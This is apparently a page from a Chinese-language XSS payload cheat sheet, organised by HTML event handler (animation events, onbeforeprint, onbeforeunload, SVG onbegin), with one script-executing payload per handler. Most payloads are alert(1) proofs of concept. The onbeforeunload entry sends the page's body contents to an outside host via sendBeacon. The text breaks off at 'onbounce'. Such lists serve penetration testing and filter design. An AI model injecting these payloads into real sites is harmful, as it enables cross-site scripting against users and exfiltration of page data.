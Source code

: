 #### **onanimationend**

CSS 动画结束时激发

```
<style>@keyframes x{}</style><xss style="animation-name:x" onanimationend="alert(1)"></xss>
```

#### **onanimationiteration**

CSS 动画重复时激发

```
<style>@keyframes slidein {}</style><xss style="animation-duration:1s;animation-name:slidein;animation-iteration-count:2" onanimationiteration="alert(1)"></xss>
```

#### **onanimationstart**

当 CSS 动画开始时激发

```
<style>@keyframes x{}</style><xss style="animation-name:x" onanimationstart="alert(1)"></xss>
```

#### **onbeforeprint**

在打印页面之前激发

```
<body onbeforeprint=console.log(1)>
```

#### **onbeforescriptexcut**

在脚本执行前激发

```
<xss onbeforescriptexecute=alert(1)><script>1</script>
```

#### **onbeforeunload**

当 URL 改变时触发

```
<body onbeforeunload=navigator.sendBeacon('//https://ssl.anonymous.net/',document.body.innerHTML)>
```

#### **onbegin**

当 svg 动画开始时启动

```
<svg><animate onbegin=alert(1) attributeName=x dur=1s>
```

#### **onbounce**

当字幕反弹时发生
